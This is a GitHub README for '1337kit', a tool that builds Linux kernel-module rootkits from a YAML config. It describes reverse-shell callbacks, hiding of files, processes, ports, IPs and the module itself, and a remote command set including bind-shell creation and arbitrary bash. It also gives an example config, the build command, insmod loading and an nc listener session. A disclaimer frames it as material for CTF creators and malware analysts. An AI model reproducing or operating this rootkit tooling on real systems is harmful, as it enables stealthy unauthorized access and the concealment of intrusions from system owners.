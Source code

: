 # 1337kit - LKM Rootkit Builder

```
 ████   ████████   ████████  ██████████ █████       ███   █████   
░░███  ███░░░░███ ███░░░░███░███░░░░███░░███       ░░░   ░░███    
 ░███ ░░░    ░███░░░    ░███░░░    ███  ░███ █████ ████  ███████  
 ░███    ██████░    ██████░       ███   ░███░░███ ░░███ ░░░███░   
 ░███   ░░░░░░███  ░░░░░░███     ███    ░██████░   ░███   ░███    
 ░███  ███   ░███ ███   ░███    ███     ░███░░███  ░███   ░███ ███
 █████░░████████ ░░████████    ███      ████ █████ █████  ░░█████ 
░░░░░  ░░░░░░░░   ░░░░░░░░    ░░░      ░░░░ ░░░░░ ░░░░░    ░░░░░  
LKM Rootkit Builder
```

## About project

1337kit is 64-bit LKM Rootkit builder based on yaml prescription
Fully tested on: Linux 5.11.0-34-generic 20.04.1-Ubuntu SMP x86_64 x86_64 x86_64 GNU/Linux

### DISCLAIMER: FOR EDUCATIONAL AND INFORMATIONAL PURPOSES ONLY

This project is for malware analytists and for creator of CTF or cyber security exercises, with this builder you can build your custom rootkit for your exercise

**I do not take any responsibility for usage of this project**

### Features

* RevShell based connector
* Hiding dents (files, files prefixes, process id)
* Hiding connections based on Ports in TCP Connection
* Hiding connections based on IPv4 in TCP Connection
* Spawning scripts to user-space
* Hiding module from module list

## Usage

You have to create your yaml prescription for custom rootkit,
Example of full prescription (every option can be omitted):

```yaml
hideme: true
connector: 
    ip: "127.0.0.1"
    port: "8080"
hide_dent: # Here you can put all your files, directories and process id you want to hide from user
    - "91746"
    - "1337test_"
hide_port:
    - "8080"
    - "1337"
hide_ip:
    - "127.0.0.1"
    - "8.8.8.8"    
shells:
    - "sleep 1000"
```

After you create your yaml just run the builder.py

```sh
$ python3 builder.py --config testfiles/config.yml
```
And rootkit.ko will be created.

another way to execute your hiding or shell script is connector, if you enable your connector, rev-sell connection is created to your defined IP and Port, after this it will try open connection every x second. After connection is opened multiple commands can be send:

* HIDEME
* SHOWME
* HIDE_DENT
* SHOW_HIDDEN_DENT
* HIDE_PORT
* SHOW_HIDDEN_PORT
* HIDE_IP
* SHOW_HIDDEN_IP
* BINDSHELL_CREATE
* RUN_CUSTOM_BASH

## Future Features

* TCP IPv6 hiding
* UDP hiding
* builder name obfuscation (cuz now when you do strings you will see symbols like init_rootkit ect)

### Examples

```sh
$ python3 builder.py --config testfiles/config.yml
$ sudo insmod rootkit.ko
$ nc -lvnp 8080
 Listening on 0.0.0.0 8080
 Connection received on 127.0.0.1 39040
 RUN_CUSTOM_BASH sleep 1000
```

![example](images/example.jpeg)
